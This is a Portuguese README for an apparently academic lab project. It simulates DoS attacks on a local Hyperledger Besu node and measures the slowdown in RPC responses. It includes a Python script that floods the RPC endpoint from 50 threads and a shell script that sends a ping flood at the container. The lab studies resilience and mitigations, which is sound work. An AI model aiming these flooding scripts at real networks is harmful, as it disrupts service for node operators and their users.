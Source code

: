 # 🧠 Projeto de Simulação de Ataque DoS/DDoS em Hyperledger Besu

Este projeto tem como objetivo demonstrar de forma **controlada e educativa** como **ataques de negação de serviço (DoS e DDoS)** podem afetar o desempenho de uma **rede blockchain privada** baseada em **Hyperledger Besu**, observando especialmente o impacto no **tempo médio de resposta das chamadas RPC**.

> ⚠️ **Aviso:** Este projeto é exclusivamente para fins acadêmicos e laboratoriais. Não deve ser utilizado em ambientes de produção nem contra redes públicas.

---

## 🚀 Objetivos do Projeto

- Montar uma rede privada Hyperledger Besu (um nó simples ou uma pequena rede com 2-3 nós).
- Gerar tráfego excessivo para simular ataques:
  - **Ataque à camada de rede:** inundação de pacotes (DoS de rede).
  - **Ataque à camada de aplicação:** sobrecarga via requisições RPC simultâneas (DoS de aplicação).
- Medir o impacto:
  - Aumento no **tempo médio de resposta RPC**.
  - Queda no throughput e na disponibilidade do nó.

---

## ⚙️ Estrutura do Projeto

```

projeto-dos-besu/
│
├── docker-compose.yml       # Configuração do nó Hyperledger Besu
├── config/
│   ├── genesis.json          # Arquivo de configuração da blockchain privada
│   └── besu-config.toml      # Configurações personalizadas do Besu
│
├── scripts/
│   ├── stress_rpc.py         # Script para gerar carga RPC (camada de aplicação)
│   ├── ping_flood.sh         # Script simples de DoS de rede (ping flood)
│   └── metrics_rpc.py        # Script para medir o tempo médio de resposta RPC
│
└── README.md

````

---

## 🧩 Pré-requisitos

- Docker e Docker Compose instalados.
- Python 3.10+ com bibliotecas `requests`, `time`, e `statistics`.
- Permissão de administrador para executar Docker (`sudo`).

---

## 🛠️ Como Executar o Projeto

### 1. Inicie o nó Hyperledger Besu

```bash
sudo docker compose up -d
````

Verifique os logs:

```bash
sudo docker logs -f besu-node
```

---

### 2. Teste a comunicação RPC

Com o nó rodando, teste a API RPC:

```bash
curl -X POST --data '{"jsonrpc":"2.0","method":"eth_blockNumber","params":[],"id":1}' http://localhost:8545
```

Se retornar um número de bloco, o nó está operacional ✅

---

### 3. Medir tempo médio de resposta RPC (sem ataque)

Execute:

```bash
python3 scripts/metrics_rpc.py
```

Saída esperada:

```
Tempo médio de resposta RPC: 0.045 segundos
```

---

### 4. Simular ataque DoS na camada de aplicação

Abra outro terminal e rode:

```bash
python3 scripts/stress_rpc.py
```

Esse script envia centenas de requisições RPC simultâneas (por exemplo, `eth_blockNumber`).

---

### 5. Simular ataque à camada de rede

Em outro terminal (ou container):

```bash
bash scripts/ping_flood.sh
```

> Este script envia pacotes ICMP em alta frequência ao container do Besu (somente para ambiente de teste).

---

### 6. Medir impacto

Execute novamente o medidor de desempenho:

```bash
python3 scripts/metrics_rpc.py
```

Compare os tempos **antes** e **durante o ataque**.

Exemplo de resultado:

| Situação        | Tempo médio RPC (s) | Observação                    |
| --------------- | ------------------- | ----------------------------- |
| Normal          | 0.045               | Resposta estável              |
| Sob ataque RPC  | 0.487               | Aumento de 980%               |
| Sob ataque ICMP | 1.102               | Queda acentuada de desempenho |

---

## 📊 Scripts Importantes

### `metrics_rpc.py`

Mede o tempo médio de resposta de requisições RPC.

```python
import requests, time, statistics

url = "http://localhost:8545"
payload = {"jsonrpc": "2.0", "method": "eth_blockNumber", "params": [], "id": 1}

tempos = []
for _ in range(30):
    inicio = time.time()
    requests.post(url, json=payload)
    tempos.append(time.time() - inicio)

print(f"Tempo médio de resposta RPC: {statistics.mean(tempos):.3f} segundos")
```

---

### `stress_rpc.py`

Simula ataque de sobrecarga RPC.

```python
import requests, threading

url = "http://localhost:8545"
payload = {"jsonrpc": "2.0", "method": "eth_blockNumber", "params": [], "id": 1}

def flood():
    while True:
        try:
            requests.post(url, json=payload, timeout=1)
        except:
            pass

for _ in range(50):  # 50 threads simultâneas
    threading.Thread(target=flood, daemon=True).start()
```

---

### `ping_flood.sh`

Ataque de inundação ICMP (rede).

```bash
#!/bin/bash
IP_CONTAINER=$(sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' besu-node)
echo "Enviando pacotes ICMP para $IP_CONTAINER"
ping -f -s 1400 $IP_CONTAINER
```

---

## 📚 Conceitos Envolvidos

* **Ataque DoS (Denial of Service):** saturação de recursos de um nó, impedindo o funcionamento normal.
* **Ataque DDoS (Distributed DoS):** múltiplas origens simultâneas causam sobrecarga massiva.
* **Camada de rede:** ataques baseados em pacotes (ICMP, TCP SYN Flood).
* **Camada de aplicação:** ataques via APIs ou RPCs sobrecarregando o processamento.

---

## 🧠 Conclusão

Esse projeto demonstra, de forma simples, como a **resiliência e desempenho** de uma rede **Hyperledger Besu** podem ser comprometidos sob ataques de negação de serviço.
Os resultados podem ser usados para planejar **mitigações** (como firewalls, rate limiting e load balancing).

---

## 👨‍💻 Autor

**João Filho**
Residente em Cibersegurança – PUCPR
Foco: GRC, Blockchain e Segurança Cibernética
📧 contato: [seu-email@exemplo.com](mailto:seu-email@exemplo.com)